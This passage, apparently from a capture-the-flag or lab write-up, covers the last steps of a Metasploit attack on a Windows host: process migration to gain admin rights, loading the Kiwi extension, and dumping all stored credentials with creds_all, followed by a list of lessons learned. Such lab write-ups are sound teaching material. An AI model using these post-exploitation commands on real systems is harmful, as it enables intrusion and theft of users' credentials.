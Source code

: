 \`\`\`bash
$migrate -N PROCESS_NAME 1372
\`\`\`

This process migration allowed me to gain admin access.

---

### 1️⃣9️⃣ Confirming Admin Access

I verified the privilege escalation by running:

\`\`\`bash
$getuid
\`\`\`

The output confirmed that I now had administrative access.

---

### 2️⃣0️⃣ Extracting Passwords Using Kiwi

For post-exploitation, I loaded the Kiwi extension to extract credentials:

\`\`\`bash
$load kiwi
\`\`\`

---

### 2️⃣1️⃣ Viewing Available Commands

To explore what Kiwi could do, I ran:

\`\`\`bash
help
\`\`\`

---

### 2️⃣2️⃣ Extracting All Credentials

Finally, I extracted all stored credentials using:

\`\`\`bash
$creds_all
\`\`\`

This revealed sensitive information from the target machine.

---

## ✅ What I Learned

- How to perform network scanning and OS detection using Nmap  
- How to identify vulnerable services such as Icecast  
- How to research vulnerabilities using CVE identifiers  
- How to exploit services with Metasploit  
- How to configure attack parameters (\`LHOST\`, \`RHOST\`)  
- How to escalate privileges using local exploits  
- How to perform post-exploitation tasks such as dumping credentials  
- How to maintain sessions and migrate processes for better control  

---